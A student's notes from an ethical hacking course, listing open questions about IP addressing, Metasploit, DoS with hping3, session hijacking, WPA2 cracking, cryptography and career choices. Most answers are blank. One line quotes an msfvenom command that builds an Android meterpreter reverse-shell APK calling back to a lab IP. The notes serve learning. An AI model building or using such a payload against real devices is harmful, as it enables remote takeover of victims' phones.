 1. is IP address can't be starting with 0 like this 0.012.322.333 ❌ , but initially 0 can be like this 012.223.112.999 ✔ - am i correct or wrong ? <br>Ques 1 : is 0.192.168.1 & 192.168.1.0 - is this IP address is correct or not ? & if not then why - ask for reason 

--- 

- lecture no. 27 - Android Hacking using Msfvenom & Ahmyth
- sir wrote the command : `msfvenom -p android/meterpreter_reverse_tcp lhost 192.168.133.128 lport 8686 >amit.apk`
	- Q Doubt 0 : if we make connection local to local system in vmware <br>then we can take any port no. , so can we actually take any port no. <br>Q Doubt 1 : consider we're making connection b/w local to local system <br>then why sir only took 8686 as a port no. <br>Q Doubt 2 : can we take port no. like 80 or something else <br>Q Doubt 3 : how to decided which port no. we can take to make connection
	- Ans of all 3 Qs  : 
		- 

---
- lecture no. - 14
- lecture name : network scanning 
- sir said : so "TCP" - can be scanned easily on 1 or 2 Ports , if TCP makes scanning on Port no. `65535` <br>then firewall will block
	- doubt : 
		- 1) is u meant that TCP can be scanned on Port no. `1` or `2`  OR did u mean 1 or 2 ports 
			- Ans : 
	- extra doubt : is any specific port no. used by TCP to establish connection with the IP address of a system
- sir said : when we do `netdiscover` & 1st & 2nd IP addresses are of Vmare's Virtiual router 
	- Doubt : 
		- so is that same statement will be applied in actual machine if we do ethical hacking via actual machines <br>currently we're doing hacking virtually 

---
- lecture no. 26 , name : concept of DOS attack
- practical work of hping3 
	- Doubt : in metasploitable2 , when we're running `cat /dev/urandom` - then sounds coming & sometimes sound coming
	- Q : how to turn ON or OFF before running `cat /dev/urandom`
	- Ans : 

---
- lecture no. 27 & 28 , name : DOS attack practical & Session Hijacking
- Pratical : in DOS Attack practical - we used BurpSuite Tool <br>& in session Hijacking - we used Wireshark <br>- in both cases , we used different tools to intercept the data packets
- Doubt : can't we used BurpSuite tool in Session Hijacking - cuz we're intercepting the data packet request <br>- when user was login inside testphpvuln.com
- Ans : 

---
- Lecture 17 ✔
- lecture name : 
- sir run this command : `mount -o nfs 192.168.59.130:/ /home/kali/Desktop/Mount/`
	- Doubt : 

---

- lecture 17 to 19 ✔
- doubt : in these lectures , why we're using only msfconsole tool <br>- is that the reason that victim's system is metasploit that's why or not ?

--- 
- lecture 18 ✔
- lecture name : More About Exploitation & Armitage
- sir : when sir was doing exploit on tomcat then we're getting error i.e 500 internal server error
	- Doubt : i tried via msfconsole & even but same issue coming
	- Ans : 
--- 

- what does mean "found shell OR shell opened" when we hack a system ✔
- Ans : 

---

- lecture 34
- lecture name : cryptography
- sir said : that Substitution cipher technique takes 4 pairs from the plain text like message is "i am devendra"
	- timeline : 24:02 - 27:23
	- Doubt : is Substitution cipher technique actually takes 4 pairs or not  <br>if yes - then is it also skip next 4 pair - then it'll take next 4 pair for encryption<br>Ans : 
	- Doubt : is it also takes a space as a plain text <br>Ans : 

---

- lecture 30 , name - wifi hacking
- Doubt 1 : is wifi router save the mac address of a connected device
	- Ans : 
- Doubt 2 : cracking the password (which has WPA2 encryption) - & after running a common word list passwords <br>then let's say password still not cracked from that handshake file <br>- then what's the 2nd option - which was sir saying (but he didn't show the 2nd solution)
	- Ans : 

---

general doubt
- Q : how to check private vs Public IP on my PC
	- Doubt : when i executed `ipconfing` in cmd as administration - then which one is my private IP
	- Ans : 
- Q : if someone hacked a person's IP address then what that hacker can do<br>Q : how i can protect if someone hacked my IP address 
	- Ans : 
- Q : what is a payload or payload is a malicious scripts<br>Q : how is it different from virus & worm

---



--- 

- Q : parrot os vs kali linux os 2024 <br>Ans : <br>> Do hackers use ParrotOS? <br>Ans : Parrot Security OS and Kali are both used for Penetration testing and both are are Debian OS. If you go with the Kali you can use metasploit tool which is used for several reasons including System Hacking and Mobile Hacking. **This is not present in Parrot Security OS**.
	- [Kali Linux vs Parrot OS. Introduction | by S12 Pentest | Medium](https://medium.com/@ssalssa.1.12.2.1.2.1/kali-linux-vs-parrot-os-704b85972821)
	- Q : Why Kali is better than parrot ? <br>Ans : **Kali has all the basic hacking tools**, while Parrot also adds its own tools such as AnonSurf, Wifiphisher, Airgeddon. Kali has more than 300 pentesting and IT audit tools, while Parrot has more than 750 well-known cybersecurity applications.


---

- what is the syntax for deleting a report in msf6/msfconsole database in kali linux ✔
	- i tried to delete a specific report via "db_destroy" but it's not working
	- sir even said that remove that hosts report file from the folder then it'll automatically will be removed <br>but is there any command ?
	- doubt : i removed all the hosts successfully via armitage GUI , <br>but is there any cli command to remove the particular host/report in msfconsole
	- Ans : sir said , use `db_remove <host/IPaddress>` <br>- & generally we don't remove cuz if we do so - then further services related to msfconsole will also removed <br>- so do 

---

1. for guidance 
	- for get a job/internship into Ethical Hacking or cyber security what should i need to do <br>- Eg : Reddit eg : should i do CompTIA certs (A+, Net+, Sec+) - are these useful to do or any impact will happen in my resume

--- 

### Doubts after going through the course 

1. privilege escalation
   - Q : step by step process how to do privilege escalation on parrotOS
   - Mine advice : it's a big standalone topic - which u need to dig into deep
- 


--- 

### Guidance after course
- Q : in which i need to be updated & in which field not <br>Eg : so i need to keep update in CEH , penetration & in which field not need to be updated
- Q : will ai replace Ethical hackers , cuz u saw penetestGPT on github
